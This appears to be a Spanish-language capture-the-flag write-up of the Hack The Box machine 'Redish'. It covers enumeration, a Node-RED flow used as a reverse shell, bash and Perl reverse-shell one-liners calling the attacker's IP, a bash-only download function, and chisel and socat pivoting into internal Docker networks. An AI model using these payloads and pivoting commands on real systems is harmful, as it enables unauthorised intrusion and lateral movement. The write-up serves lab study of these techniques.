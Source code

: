 # Redish

## NMAP

![image](https://github.com/gecr07/RedishHTB/assets/63270579/325411cf-e1b7-49a2-b667-067b49606bb8)

![image](https://github.com/gecr07/RedishHTB/assets/63270579/911975ed-cde7-47ac-8df7-904c60b548c9)

Ahora (no hubiera sabido como la verdad) visitamos el link.

> http://10.10.10.94:1880/red/e72c52ec2ba93670b5b9fcc018afcdff

![image](https://github.com/gecr07/RedishHTB/assets/63270579/e38e48cf-9265-49b5-a93c-1bd6a15f2ffb)

Para la shell reversa se usa:

```
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]

```

Una vez dentro pues nos damos cuenta que la shell esta muy precaria ( y asi lo hacen todos los writes que he visto nos mandamos otro shell


```
[object Object]bash -c "bash -i >& /dev/tcp/10.10.14.28/1234 0>&1"
```

![image](https://github.com/gecr07/RedishHTB/assets/63270579/484e0234-1c4e-4ba5-b818-23bd4fb61d5a)

Descubrimiento de puertos.

```
#!/bin/bash                                                                                                           │    for i in $(seq 1 254); do
                                                                                                                      │        bash -c "ping -c 1 $networks.$i" &>/dev/null && echo -e "\t[+] Host $network.$i -ACTIVE" &
echo "Hola estoy dentro"                                                                                              │        echo "Estoy dentro del for interno Funciona..."
                                                                                                                      │
networks=(172.19.0 172.18.0)                                                                                          │    done; wait 
                                                                                                                      │
                                                                                                                      │done; tput cnorm
                                                                                                                      │
for  network in ${networks[@]}; do                                                                                    │
echo "[+] Estoy escaneo  la red $network.0/24"                                                                        │
for i in $(seq 1 254); do                                                                                             │
                                                                                                                      │                                                                                                                     
        timeout 1 bash -c "ping -c 1  $network.$i" &>/dev/null && echo " [+] La ip $network.$i -ACTIVE" &             │┌──(kali㉿kali)-[~/RedishHTB/content]
                                                                                                                      │└─$ 
done;wait                                                                                                             │
done                                                                                                                  │
                                                                                                                      │
echo "Este es el final" 
```

## Alternativa

O bien si queremos subir el nmap y no existe nada no hay nc no python no wget no curl existen funciones de wget y curl que permiten descargar incluso archivos creadas completamente con bash.

> https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et

```
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```


Su uso 

```
__curl http://IP/archivo > archivo

```

# Compilar y bajar de peso el chisel

![image](https://github.com/gecr07/RedishHTB/assets/63270579/847ec256-cfc7-4250-a480-2e1d89d641af)

```
go build .
du -hc chisel # Pesa 12 MB
sudo go build -ldflags "-s -w" .
sudo upx chisel 
du -hc chisel # pesa 3 MB!!!

```

## CHISEL PortForwarding

Entonces chisel funciona asi la maquina Kali va a ser el servidor y la maquina victima e cliente.


Cliente (victima)
```
./chisel client 10.10.14.11:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6373

chisel client IPKALI:1234 R:80:IP_adondequeremosllegar:80
                          El puerto 80 de este equipo se convierta en el puerto 80 de mi equipo.
Y no acaba ahi puedes meterle multiples puertos

chisel client IPKALI:1234 R:80:IP_adondequeremosllegar:80 R:6379:172.19.0.2:6379
Lo ulitmo le dice el puerto 6379 de la ip quiero que se convierta en el puero 6379 de mi computadora.
```

Servidor (Kali)
```
chisel server --reverse -p 1234
```

Y lo magico es que entonces puedes escanear con nmap porque entonces ahora nada mas especifica el puerto

```
nmap -sCV -p6379 127.0.0.1 
```


![image](https://github.com/gecr07/RedishHTB/assets/63270579/1090c4b9-0272-4897-afca-29f4885cb455)


Ahora en la pagina que encontramos encontramos rutas. ( por lo menos S4vitar de pregunto y si esas rutas estan dentro de /var/www/html/ruta y asi fue el razonamiento)

![image](https://github.com/gecr07/RedishHTB/assets/63270579/9253e88b-d334-4f05-ad47-58d2a963f556)

Entonces vamos a hacktricks y leemos que existe una manera de lograr RCE.

## PIVOTING (sotcat)


```

Nodered ( hostname)

eth0  (interfaz de Nodered) 172.18.0.2/16

        [+] Host 172.18.0.2 -ACTIVE <- (Nodered) [PWNED]
               [+] Port 1880 - OPEN
        [+] Host 172.18.0.1 -ACTIVE <- Maquina Host
               [+] Port 1880 - OPEN


eth1 (interfaz de Nodered) 172.19.0.4/16

      [+] La ip 172.19.0.4 -ACTIVE <- (Nodered) [PWNED] -> 1111 -> ./socat TCP-LISTEN:1111,fork TCP:10.10.14.11:2222 &

               [+] Port 1880 - OPEN
      [+] La ip 172.19.0.3 -ACTIVE (hints) == Tenenmos ejecucion de comandos mediante web shell (pero no podemos tener conectividad con Kali solo la IP del segmento)
               [+] Port 80 - OPEN
      [+] La ip 172.19.0.2 -ACTIVE ( redis) ==
               [+] Port 6379 - OPEN


      [+] La ip 172.19.0.1 -ACTIVE <- Maquina Host

```

Entonces tenemos la  172.19.0.4 PWNED desde el incio y logramos comand execution en la 172.19.0.3 ( que a su vez tiene ips nuevas que no habiamos visto osea alcanza otras redes). Ahora lo que vamos a hacer para poder
seguir es mandarnos una reverse shell a la  172.19.0.4 (que si tiene conectividad porque estan en el mismo segmento) OJO y es aqui donde pusimos el SOTCAT que redirige todo el trafico del puerto 1111 a la IP_KALI por el 
puerto 2222 y bum tenemos una shell en Kali y ahora podemos alzar otras redes.

Cabe destacar que tomamos un binario estatico del mismo repo del nmap este:

> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

```
./socat TCP-LISTEN:1111,fork TCP:10.10.14.11:2222 & #Por cierto que dejamos corriendo en segundo plano

```
A y para la shell usamos una de perl y pusimos %26 en lugar de & (url encode) para que no nos diera problemas.

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image](https://github.com/gecr07/RedishHTB/assets/63270579/2f00b438-928b-4ea7-9d01-eb32cc1f5671)

Esta es la Ip que nosotros veiamos 172.19.0.3 y en la imagen puedes ver que hay otra de otro segmento escondido para nosotros.






















































































